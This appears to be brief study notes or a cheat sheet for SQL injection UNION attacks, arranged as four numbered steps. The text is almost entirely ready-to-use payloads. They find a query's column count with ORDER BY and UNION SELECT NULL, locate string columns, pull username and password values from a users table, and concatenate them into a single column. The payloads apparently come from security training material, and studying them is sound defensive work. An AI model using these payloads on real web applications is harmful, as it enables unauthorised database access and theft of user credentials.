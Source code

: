 # 1 Determining the number of columns required in an SQL injection UNION attack

' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.


' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.

# 2 Finding columns with a useful data type in an SQL injection UNION attack

' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--

# 3 Using an SQL injection UNION attack to retrieve interesting data

' UNION SELECT username, password FROM users--

# 4 Retrieving multiple values within a single column

' UNION SELECT username || '~' || password FROM users--